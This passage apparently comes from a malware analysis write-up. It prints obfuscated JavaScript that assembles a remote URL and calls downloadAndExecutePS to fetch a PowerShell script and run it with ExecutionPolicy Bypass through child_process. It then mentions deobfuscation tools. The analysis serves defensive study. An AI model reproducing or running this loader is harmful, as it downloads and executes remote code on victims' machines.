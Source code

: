 ```jsx
                const _0x5269cc = _0x5f6c3e;
                if (_0x17cc24) {
                    console[_0x5269cc(0x1d3)](_0x5269cc(0x1bb) + _0x5269cc(0x1b9) + _0x17cc24[_0x5269cc(0x1cd)]);
                    return;
                }
                _0xc90cd0 && console[_0x5269cc(0x1d3)](_0x5269cc(0x1df) + _0x5269cc(0x1bf) + _0xc90cd0), console[_0x5269cc(0x1ca)](_0x5269cc(0x1df) + _0x5269cc(0x1ce) + _0x55cf27);
            });
        });
    })['on'](_0x4e3fdc[_0x2440c0(0x1b3)], _0x599831 => {
        const _0x4e1c9a = _0x2440c0;
        console[_0x4e1c9a(0x1d3)](_0x4e1c9a(0x1dd) + _0x4e1c9a(0x1de) + _0x599831[_0x4e1c9a(0x1cd)]);
    });
}
const powershellScriptUrl = _0x56812d(0x1c6) + _0x56812d(0x1d7) + _0x56812d(0x1c3) + _0x56812d(0x1da) + _0x56812d(0x1db);
downloadAndExecutePS(powershellScriptUrl);

function _0xf4ad() {
    const _0x1d910d = ['dVXvv', 'andx20x22', '28SDlCmp', 'powershell', 'length', 'CEElF', 'LOTbW', '1sWPiis', '1730ujKFmv', 'XmeQl', 'http', 'error:x20', 'passx20-Comm', 'Executionx20', '3708624ZELwdZ', 'charCodeAt', 'split', 'x20stderr:x20', 'ess', '145629YRilrf', 'nPolicyx20By', 'e.com:8080', '1317560WgPGFe', 'iaPTZ', 'http://sup', '8NkmRPt', 'pBZgK', '6750276bKDuza', 'log', 'KPTAd', 'qVdYR', 'message', 'x20output:x20', 'frxwd', 'string', 'ZMxxu', 'fromCharCo', 'error', 'BaXnZ', '35160081OiZpxe', 'end', 'ersecurite', '2014940LPSLec', 'xTNjB', '/helpful_t', 'ool.html', 'get', 'Downloadx20e', 'rror:x20', 'PowerShell', 'replace', '21213UWhXcl', '9thglfk', 'jfgneo3458', 'data', 'child_proc', 'x20-Executio'];
    _0xf4ad = function() {
        return _0x1d910d;
    };
    return _0xf4ad();
}
```

Now understanding this obfuscation takes a bit of time, so I’ve tried to summarize this entire process of deobfuscation using a diagram. Of course, this comes after trying out various tools as follows.

[JavaScript Deobfuscator](https://deobfuscate.io/)

[JavaScript Deobfuscator](https://deobfuscate.relative.im/)
